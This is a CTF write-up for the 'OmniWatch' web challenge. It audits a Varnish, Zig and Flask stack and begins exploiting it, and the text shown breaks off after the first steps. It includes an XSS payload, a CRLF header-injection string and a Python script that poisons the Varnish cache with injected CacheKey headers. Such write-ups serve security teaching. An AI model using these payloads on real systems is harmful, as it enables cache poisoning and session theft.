        <font size="10">OmniWatch</font>

5<sup>th</sup> February 2024 / D24.xx.xx

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=red>Hard</font>

​Classification: Official

# [Synopsis](#synopsis)

- Abuse CRLF injection on http.zig to inject header => varnish cache poisoning on a race condition => steal moderator jwt => lfi to leak jwt_secret => sqli to inject arbitrary jwt signature => craft malicious jwt to bypass tamper protection

## Description

* You have found the IP of a web interface gunners use to track and spy on foes, hack in and retrieve last known location of a caravan that got ambushed in order to find an infamous a black market seller to trade with.

## Skills Required

- Understanding of Varnish cache
- Understanding of Python and Flask
- Understanding of the Zig language
- Understanding of HTTP
- Understanding of JWT
- Knowledge of LFI
- Knowledge of SQLi

## Skills Learned

- Abusing CRLF injection to inject arbitrary headers.
- Abusing header injection to cause cache poisoning on a race condition.
- Bypassing tamper protection on JWT's

## Application Overview



Let's try and visit the URL of the challenge.



Seems like all we can access is the `/controller/login` endpoint, but we don't have any credentials.

### Code audit

Let's start by examining the `Dockerfile`.

```Dockerfile
FROM debian:11.9

# Install packages
RUN apt update
RUN apt install -y wget gnupg software-properties-common apt-transport-https lsb-release ca-certificates
RUN wget -q -O - https://packagecloud.io/varnishcache/varnish60lts/gpgkey | apt-key add -
RUN echo "deb https://packagecloud.io/varnishcache/varnish60lts/debian/ buster main" >> /etc/apt/sources.list.d/varnishcache_varnish60lts.list
RUN apt-key adv --keyserver keyserver.ubuntu.com --recv-keys B7B3B788A8D3785C
RUN echo "deb http://repo.mysql.com/apt/debian/ buster mysql-8.0" >> /etc/apt/sources.list.d/mysql.list
RUN apt update
RUN DEBIAN_FRONTEND="noninteractive" apt install -y gcc curl git tar xz-utils supervisor varnish python3 pip mysql-server chromium
RUN rm -rf /var/lib/apt/lists/*
```

At the first part some dependencies are installed, the most notable of which are `Varnishcache`.

```Dockerfile
# Add chromium to PATH
ENV PATH="/usr/lib/chromium:${PATH}"

# Copy flag
COPY flag.txt /flag.txt

# Upgrade pip
RUN python3 -m pip install --upgrade pip
RUN python3 -m pip install --upgrade setuptools
```

Later chromium is added to path, the flag is copied to the root of the server and also `pip` and `setuptools` are installed.

```Dockerfile
# Setup and install zig
RUN mkdir -p /zig
WORKDIR /zig
RUN wget https://ziglang.org/download/0.11.0/zig-linux-x86_64-0.11.0.tar.xz
RUN tar -xvf zig-linux-x86_64-0.11.0.tar.xz
RUN rm zig-linux-x86_64-0.11.0.tar.xz
ENV PATH="/zig/zig-linux-x86_64-0.11.0:$PATH"
```

Then the `Zig` programming language is installed and added to path.

```Dockerfile
# Setup readflag program
COPY config/readflag.c /
RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c

# Create challenge directory
RUN mkdir -p /app
COPY challenge /app
```

The `c` file from `config/readflag.c` is compiled and placed to the server's root and then `/app` which houses the challenge's code is created.

```Dockerfile
# Build oracle
WORKDIR /app/oracle
RUN zig build

# Install controller dependencies
WORKDIR /app/controller
RUN python3 -m pip install -r requirements.txt
```

Then the `Zig` service is compiled and the dependencies for the `Python` service are installed.

```Dockerfile
# Setup supervisord
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/cache.vcl /etc/varnish/default.vcl

# Expose http port
EXPOSE 1337

# Startup script
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```

Then the config files for `supervisor` and `varnish` are placed to their appropriate directories, port 1337 is exposed and `entrypoint.sh` is started.


```sh
#!/bin/bash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Random password function
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}

# Generate varnish and jwt secrets
dd if=/dev/urandom of=/etc/varnish/secret count=1
dd if=/dev/urandom bs=32 count=1 status=none | tr -dc "[:print:]" > /app/jwt_secret.txt

# Randomize flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

At the first part of the entrypoint a function that returns random characters is defined. Also the files `/etc/varnish/secret` and `/app/jwt_secret.txt` are filled with random characters, and random characters are also inserted in the name of `/flag.txt`.

```sh
# Set environment variables
export MYSQL_HOST="localhost"
export MYSQL_DATABASE="omniwatch"
export MYSQL_USER="omniwatch"
export MYSQL_PASSWORD=$(genPass)
export MODERATOR_USER=$(genPass)
export MODERATOR_PASSWORD=$(genPass)

# Initialize and start mysql
mkdir -p /run/mysqld
chown -R mysql:mysql /run/mysqld
mysqld --user=mysql --console --skip-networking=0 &

# Wait for mysql to start
while ! mysqladmin ping -h"localhost" --silent; do echo "not up" && sleep .2; done
```

Then some enviroment variables are set with database and moderator credentials, then mysql is started.

```sh
# Create mysql user
mysql -u root -h $MYSQL_HOST << EOF
CREATE USER '${MYSQL_USER}'@'${MYSQL_HOST}' IDENTIFIED BY '${MYSQL_PASSWORD}';
CREATE DATABASE IF NOT EXISTS ${MYSQL_DATABASE};
GRANT ALL PRIVILEGES ON ${MYSQL_DATABASE}.* TO '${MYSQL_USER}'@'${MYSQL_HOST}';
FLUSH PRIVILEGES;
EOF

# Migrate database
python3 seed.py

# Revoke unused permissions
mysql -u root -h $MYSQL_HOST << EOF
REVOKE ALL PRIVILEGES ON ${MYSQL_DATABASE}.* FROM '${MYSQL_USER}'@'${MYSQL_HOST}';
GRANT SELECT ON ${MYSQL_DATABASE}.users TO '${MYSQL_USER}'@'${MYSQL_HOST}';
GRANT SELECT ON ${MYSQL_DATABASE}.devices TO '${MYSQL_USER}'@'${MYSQL_HOST}';
GRANT SELECT, INSERT, UPDATE, DELETE ON ${MYSQL_DATABASE}.signatures TO '${MYSQL_USER}'@'${MYSQL_HOST}';
GRANT SELECT, UPDATE ON ${MYSQL_DATABASE}.bot_status TO '${MYSQL_USER}'@'${MYSQL_HOST}';
FLUSH PRIVILEGES;
EOF

# Start application
/usr/bin/supervisord -c /etc/supervisord.conf
```

Then the defined database is created on mysql and all privileges are granted on the user. The `seed.py` script is run to populate the database and then unused privileges are revoked before `supervisor` starts.

```
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:controller]
command=python3 run.py
directory=/app/controller
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:oracle]
command=/app/oracle/zig-out/bin/oracle
directory=/app/oracle/zig-out/bin
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:varnish]
command=/usr/sbin/varnishd -F -a :1337 -f /etc/varnish/default.vcl -s default,256m
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

On `config/supervisor.conf` three service are defined and run, `controller` which is a `Python` web application, `oracle` which is a `Zig` application and `Varnish` cache.

```
vcl 4.0;

backend default1 {
    .host = "127.0.0.1";
    .port = "3000";
}

backend default2 {
    .host = "127.0.0.1";
    .port = "4000";
}

sub vcl_hash {
    hash_data(req.http.CacheKey);
    return (lookup);
}

sub vcl_synth {
    if (resp.status == 301) {
        set resp.http.Location = req.http.Location;
        set resp.status = 301;
        return (deliver);
    }
}

sub vcl_recv {
    if (req.url ~ "^/controller/home"){
        set req.backend_hint = default1;
        if (req.http.Cookie) {
            return (hash);
        }
    } else if (req.url ~ "^/controller") {
        set req.backend_hint = default1;        
    } else if (req.url ~ "^/oracle") {
        set req.backend_hint = default2;
    } else {
        set req.http.Location = "/controller";
        return (synth(301, "Moved"));
    }
}

sub vcl_backend_response {
    if (beresp.http.CacheKey == "enable") {
        set beresp.ttl = 10s;
        set beresp.http.Cache-Control = "public, max-age=10";
    } else {
        set beresp.ttl = 0s;
        set beresp.http.Cache-Control = "public, max-age=0";
    }
}

sub vcl_deliver {
    if (obj.hits > 0) {
        set resp.http.X-Cache = "HIT";
    } else {
        set resp.http.X-Cache = "MISS";
    }

    set resp.http.X-Cache-Hits = obj.hits;
}
```

The `config/cache.vcl` file is used for configuring `varnish`. It configures two backends (default1 and default2). It routes requests based on URL patterns, sets cache-related headers, and handles synthetic responses for redirects. Caching behavior is adjusted dynamically based on the presence of a CacheKey in request and backend responses. The script provides HIT/MISS information in response headers for monitoring cache performance.

Let's start by examining the source code of the `Zig` service. The main app is at `challenge/oracle/src/main.zig`.

```
const std = @import("std");
const httpz = @import("httpz");

const DefaultPrng = std.rand.DefaultPrng;
const Allocator = std.mem.Allocator;

var rand_impl = DefaultPrng.init(1);
```

On the first part the libraries `std` and `httpz` are imported, then a prng and an allocator is defined.

```
pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    const allocator = gpa.allocator();
    const t1 = try std.Thread.spawn(.{}, start, .{allocator});
    t1.join();
}
```

The `main` function initializes a `GeneralPurposeAllocator`, extracts its allocator, spawns a new thread to execute the start function, and then waits for the thread to finish using t1.join(). The server setup and handling are done in the start function.

```
fn randomCoordinates() ![]const u8 {
    const strings = [_][]const u8{
        "37.8245", "-34.6037", "-122.4374", "-58.3816", "151.2093",
    };

    const randomIndex = @mod(rand_impl.random().int(u32), strings.len);
    const randomString = strings[randomIndex];
    return randomString;
}
```

This function generates random latitude or longitude coordinates by selecting a random string from a predefined array of coordinates.

```
pub fn start(allocator: Allocator) !void {
    var server = try httpz.Server().init(allocator, .{ .address = "0.0.0.0", .port = 4000 });
    defer server.deinit();
    var router = server.router();

    server.notFound(notFound);

    router.get("/oracle/:mode/:deviceId", oracle);
    try server.listen();
}
```

The `start` function sets up an HTTP server using the httpz library. It initializes the server with a specified address and port, sets up a router, and defines a route for the `/oracle/:mode/:deviceId` path, which is handled by the `oracle` function. It also sets a notFound handler for 404 errors and starts listening for incoming requests.

```
fn oracle(req: *httpz.Request, res: *httpz.Response) !void {
    // ... (skipping some code for brevity)

    const deviceId = req.param("deviceId").?;
    const mode = req.param("mode").?;
    const decodedDeviceId = try std.Uri.unescapeString(allocator, deviceId);
    const decodedMode = try std.Uri.unescapeString(allocator, mode);

    // ... (skipping some code for brevity)

    res.header("X-Content-Type-Options", "nosniff");
    res.header("X-XSS-Protection", "1; mode=block");
    res.header("DeviceId", decodedDeviceId);

    if (std.mem.eql(u8, decodedMode, "json")) {
        try res.json(.{ .lat = latitude, .lon = longtitude }, .{});
    } else {
        // ... (skipping some code for brevity)

        res.body = try std.fmt.allocPrint(res.arena, htmlTemplate, .{ decodedMode, latitude, longtitude });
    }
}
```

The `oracle` function is the handler for the `/oracle/:mode/:deviceId` route. It extracts parameters from the request, decodes them, generates random coordinates, sets response headers, and constructs the response body based on the requested mode (JSON or HTML).

```
fn notFound(_: *httpz.Request, res: *httpz.Response) !void {
    res.status = 404;
    res.body = "Not found";
}
```

The `notFound` function is a simple handler for 404 errors. It sets the response status to 404 and provides a "Not found" message in the response body.

Now let's look at the `Python` service. The main file is at `challenge/controller/run.py`.

```py
import time, schedule, threading

from application.app import app
from application.util.bot import run_scheduled_bot

def run_flask_app():
    app.run(host="0.0.0.0", port=3000, threaded=True, debug=False)


if __name__ == "__main__":
    schedule.every(0.5).minutes.do(run_scheduled_bot, app.config)

    flask_thread = threading.Thread(target=run_flask_app)
    flask_thread.start()

    while True:
        schedule.run_pending()
        time.sleep(1)
```

 A `Flask` web application and a scheduled task are started using threads. The `Flask` app runs on port 3000, and a task (`run_scheduled_bot`) is scheduled to run every 0.5 minutes. The `Flask` app runs in a separate thread to enable concurrent execution. The main loop checks and runs scheduled tasks while sleeping for 1 second between iterations.

 ```py
 import time, random

from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.options import Options

from application.util.database import MysqlInterface

def run_scheduled_bot(config):
	try:
		bot_runner(config)
	except Exception:
		mysql_interface = MysqlInterface(config)
		mysql_interface.update_bot_status("not_running")


def bot_runner(config):
	mysql_interface = MysqlInterface(config)
	mysql_interface.update_bot_status("running")

	chrome_options = Options()

	chrome_options.add_argument("headless")
	# ... (skipping some code for brevity)

	client = webdriver.Chrome(options=chrome_options)

	client.get("http://127.0.0.1:1337/controller/login")

	time.sleep(3)
	client.find_element(By.ID, "username").send_keys(config["MODERATOR_USER"])
	client.find_element(By.ID, "password").send_keys(config["MODERATOR_PASSWORD"])
	client.execute_script("document.getElementById('login-btn').click()")
	time.sleep(3)

	client.get(f"http://127.0.0.1:1337/oracle/json/{str(random.randint(1, 15))}")

	time.sleep(10)

	mysql_interface.update_bot_status("not_running")
	client.quit()
 ```

Here we we have the logic of the bot that runs every 0.5 minutes. `challenge/controller/application/util/bot.py`.

After `chromium` is started `/controller/login` is visited by the bot which then proceeds to login using moderator credentials stored at the config.

After login the bot visits a random tracker from the oracle which returns random coordinates.

Also the status of the bot (running/not_running) is saved as a record to the database.

```py
from flask import Flask
from application.blueprints.routes import web

app = Flask(__name__, static_url_path="/controller/static", static_folder="static")
app.config.from_object("application.config.Config")

app.register_blueprint(web, url_prefix="/controller")

@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]
    
    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500
```

The `Flask` web application with static file serving and error handling resides at `challenge/controller/application/app.py`. It registers a blueprint `web` for URL routing under the `/controller` prefix. The error handler returns JSON responses with error details for any encountered exceptions.

```py
import os
from dotenv import load_dotenv

load_dotenv()

class Config(object):
	JWT_KEY = open("/app/jwt_secret.txt", "r").read()
	MYSQL_HOST = os.getenv("MYSQL_HOST")
	MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
	MYSQL_USER = os.getenv("MYSQL_USER")
	MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
	MODERATOR_USER = os.getenv("MODERATOR_USER")
	MODERATOR_PASSWORD = os.getenv("MODERATOR_PASSWORD")


class ProductionConfig(Config):
	pass


class DevelopmentConfig(Config):
	DEBUG = False


class TestingConfig(Config):
	TESTING = False
```

The configuration `challenge/controller/application/config.py` for the `Flask` application is set using environment variables. It loads variables from a file, sets up a base configuration `Config`, and defines classes for production, development, and testing environments with specific adjustments.

Now let's have a look at `challenge/controller/application/blueprints/routes.py` which contains the endpoints.

```py
import sys, datetime, os, subprocess
from flask import Blueprint, current_app, render_template, make_response, request, redirect

from application.util.general import response
from application.util.jwt import create_jwt, verify_jwt
from application.util.database import MysqlInterface

web = Blueprint("web", __name__)
```

At the beggining some local and external dependencies are imported and the `web` blueprint gets defined.

```py
def moderator_middleware(func):
	def check_moderator(*args, **kwargs):
		jwt_cookie = request.cookies.get("jwt")
		if not jwt_cookie:
			return redirect("/controller/login")

		token = verify_jwt(jwt_cookie, current_app.config["JWT_KEY"])
		if not token:
			return redirect("/controller/login")
		
		mysql_interface = MysqlInterface(current_app.config)

		user_id = token.get("user_id")
		account_type = token.get("account_type")
		signature = jwt_cookie.split(".")[-1]
		saved_signature = mysql_interface.fetch_signature(user_id)

		if not user_id or not account_type or not signature or not saved_signature or signature == "":
			return redirect("/controller/login")

		if saved_signature != signature:
			mysql_interface.delete_signature(user_id)
			return redirect("/controller/login")

		if not account_type or account_type not in ["moderator", "administrator"]:
			return redirect("/controller/login")
		
		request.user_data = token
		return func(*args, **kwargs)

	check_moderator.__name__ 


def administrator_middleware(func):
		# ... (skipping some code for brevity)

		if account_type != "administrator":
			return redirect("/controller/home")
		
		# ... (skipping some code for brevity)
```

Then authentication middleware for checking `moderator` and `administrator` are set. First the `jwt` cookie is verified using the the `JWT_SECRET` from the global config, then it's claims are stored in variables and a database query is made to check if the signature of the JWT exists as a record, if not the response redirects to the login page. If the signature exists a check is made on the `account_type` claim to check whether the user is an moderator or administrator.

This is a tamper protection mechanism that ensures that even if the JWT secret is leaked no malicious JWT's can be created.

```py
@web.route("/", methods=["GET"])
def index():
	return redirect("/controller/home")
```

The `/controller` route redirects to `/controller/home`, which redirects us to the login page if we are not authenticated.

```py
@web.route("/bot_running", methods=["GET"])
def bot_running():
	mysql_interface = MysqlInterface(current_app.config)
	bot_status = mysql_interface.fetch_bot_status()
	return bot_status
```

The `/contoller/bot_running` endpoint is used to fetch the status of the chromium bot.

```py
@web.route("/login", methods=["GET", "POST"])
def login():
	if request.method == "GET":
		return render_template("login.html", title="OmniWatch - Log-in")

	if request.method == "POST":
		username = request.form.get("username")
		password = request.form.get("password")
		
		if not username or not password:
			return response("Missing parameters"), 400

		mysql_interface = MysqlInterface(current_app.config)
		user_valid = mysql_interface.check_user(username, password)

		if not user_valid:
			return response("Invalid user or password"), 401

		user = mysql_interface.fetch_user_by_username(username)

		jwt_payload = {
			"user_id": user["user_id"],
			"username": username,
			"account_type": user["permissions"]
		}
		
		jwt = create_jwt(jwt_payload, current_app.config["JWT_KEY"])
		mysql_interface.create_or_update_signature(user["user_id"], jwt.split(".")[-1])

		expiration_time = datetime.datetime.now() + datetime.timedelta(minutes=60)
		resp = make_response(redirect("/controller/home"))
		resp.set_cookie("jwt", jwt, expires=expiration_time)
		return resp, 302
```

The `/controller/login` route handles user authentication, after providing correct credentials a cookie containing a JWT with user details embedded in the claims is set on the response. Then the JWT's signature is saved on the database.

```py
@web.route("/logout", methods=["GET"])
@moderator_middleware
def logout():
	mysql_interface = MysqlInterface(current_app.config)
	mysql_interface.delete_signature(request.user_data.get("user_id"))
	resp = make_response(redirect("/controller/login"))
	resp.set_cookie("jwt", "", expires=0)
	return resp, 302
```

`/controller/logout` is used to delete the `jwt` cookie and to remove any related signatures from the database. It only works for authenticated moderator users since it uses the `moderator_middleware`.

```py
@web.route("/home", methods=["GET"])
@moderator_middleware
def home():
	mysql_interface = MysqlInterface(current_app.config)
	devices = mysql_interface.fetch_all_devices()
	return render_template("home.html", user_data=request.user_data, nav_enabled=True, title="OmniWatch - Home", devices=devices)
```

The `/controller/home` endpoint renders the home page for authenticaed users.

```py
@web.route("/device/<id>", methods=["GET"])
@moderator_middleware
def device(id):
	mysql_interface = MysqlInterface(current_app.config)
	device = mysql_interface.fetch_device(id)
	
	if not device:
		return redirect("/controller/home")

	return render_template("device.html", user_data=request.user_data, nav_enabled=True, title=f"OmniWatch - Device {device['device_id']}", device=device)
```

The `/controller/device/<id>` endpoint is used to render a page of the product with the provided id.


```py
@web.route("/firmware", methods=["GET", "POST"])
@moderator_middleware
def firmware():
	if request.method == "GET":
		patches_avaliable = ["CyberSpecter_v1.5_config.json", "StealthPatch_v2.0_config.json"]
		return render_template("firmware.html", user_data=request.user_data, nav_enabled=True, title="OmniWatch - Firmware", patches=patches_avaliable)
	
	if request.method == "POST":
		patch = request.form.get("patch")

		if not patch:
			return response("Missing parameters"), 400

		file_data = open(os.path.join(os.getcwd(), "application", "firmware", patch)).read()
		return file_data, 200
```

The `/controller/firmware` endpoint is used to display stored firmware config files.


```py
@web.route("/admin", methods=["GET"])
@administrator_middleware
def admin():
	flag = os.popen("/readflag").read()
	return render_template("admin.html", user_data=request.user_data, nav_enabled=True, title="OmniWatch - Admin", flag=flag)
```

The `/controller/admin` page calls the `readflag` binary at the root of the server which returns the flag if the user is an administrator.

### Summary

We have a web app consisting of 2 services, one written in `Zig` using the `http.zig` framework and one written in `Python` using the `Flask` framework.

They both sit behind a `varnish` cache, and a `MySQL` database is used for storing data.

The oracle service is used for fething location by providing the id of a device.

The controller service requires authenitcation and is used to browse tracking device data as well as browsing firmware updates.

## Exploitation

### CRLF injection in http.zig

Let's have a closer look on the `oracle` function of the `Zig` service.

```
fn oracle(req: *httpz.Request, res: *httpz.Response) !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    const allocator = gpa.allocator();

    const deviceId = req.param("deviceId").?;
    const mode = req.param("mode").?;
    const decodedDeviceId = try std.Uri.unescapeString(allocator, deviceId);
    const decodedMode = try std.Uri.unescapeString(allocator, mode);

    const latitude = try randomCoordinates();
    const longtitude = try randomCoordinates();

    res.header("X-Content-Type-Options", "nosniff");
    res.header("X-XSS-Protection", "1; mode=block");
    res.header("DeviceId", decodedDeviceId);

    if (std.mem.eql(u8, decodedMode, "json")) {
        try res.json(.{ .lat = latitude, .lon = longtitude }, .{});
    } else {
        const htmlTemplate =
            \\<!DOCTYPE html>
            \\<html>
            \\    <head>
            \\        <title>Device Oracle API v2.6</title>
            \\    </head>
            \\<body>
            \\    <p>Mode: {s}</p><p>Lat: {s}</p><p>Lon: {s}</p>
            \\</body>
            \\</html>
        ;

        res.body = try std.fmt.allocPrint(res.arena, htmlTemplate, .{ decodedMode, latitude, longtitude });
    }
}
```

The `deviceId` and `mode` variables are URL-decoded and stored into two variables (`decodedDeviceId`, `decodedMode`).

If `decodedMode` is equal to `json`, a JSON response with the random coordinates is returned.

Else an HTML string is created containing `decodedMode` and the random coordinates. This looks like a possible XSS vector but because the `X-Content-Type-Options` header is set to `nosniff` and no `Content-Type` header is set the browser does not "sniff" the content type or render this response as HTML.



By searching the issues of the http.zig library we find a [closed issue](https://github.com/karlseguin/http.zig/issues/25) explaining a CRLF injection bug.

All route parameters are vulnerable to CRLF injection, so we can use this to inject arbitrary headers like the `Content-Type` header we needed to cause xss.

Even though this was patched we can deduct that our app since is vulnerable it's using a static version of http.zig without importing it with the help of any package manager, and if we check the signatures of the files at `challenge/oracle/modules` we will see they match the ones before the patch commits were made on github.



Here we first URL-encoded the xss payload to provide in the `mode` parameter.

XSS:

```
<script>alert(0)</script>
```

URL-encoded: 

```
%3Cscript%3Ealert%280%29%3C%2Fscript%3E
```

And then we URL-encode the CRLF injected header for the `deviceId` parameter.

Header injection:

```
1\r\nContent-Type: text/html
```

URL-encoded header injection:

```
1%0D%0AContent-Type%3A%20text%2Fhtml
```

The same can also be achieved by setting `X-Content-Type-Options` to `undefined`.

### Varnish cache poisoning

Great now we can cause XSS, but how can we weaponize that?

Let's have a closer look at `config/cache.vcl`.

```vcl
sub vcl_backend_response {
    if (beresp.http.CacheKey == "enable") {
        set beresp.ttl = 10s;
        set beresp.http.Cache-Control = "public, max-age=10";
    } else {
        set beresp.ttl = 0s;
        set beresp.http.Cache-Control = "public, max-age=0";
    }
}
```

At the `vcl_backend_response` subroutine, which is used to forward the response from the backed to the client, the `CacheKey` header is checked for the value `enabled`. If this header is sent from the backend the response is cached for 10 seconds.

```vcl
sub vcl_hash {
    hash_data(req.http.CacheKey);
    return (lookup);
}
```

The `vcl_hash` is used to join the components of which `varnish` creates the hash that identifies clients. In this instance only the `CacheKey` header is used for this, we can abuse this to cause cache poisoning since we can inject arbitrary headers.



If we inject the arbitrary `Content-Type` or `X-Content-Type-Options` header alongside the `CacheKey` = `enabled` header and the XSS payload in the `mode` parameter varnish will cache the malicious response for 10 seconds, so after this any user visiting that endpoint will recieve the cached response, this happens because headers by themsevles are not supposed to be used as hash_data.

```py
import requests, urllib

encoded_xss = urllib.parse.quote("<script>alert(0)</script>")

injected_headers = "\r\nCacheKey: enable\r\nX-Content-Type-Options: undefined"
encoded_headers = urllib.parse.quote(injected_headers)

requests.get(f"{CHALLENGE_URL}/oracle/{encoded_xss}/1{encoded_headers}")
```

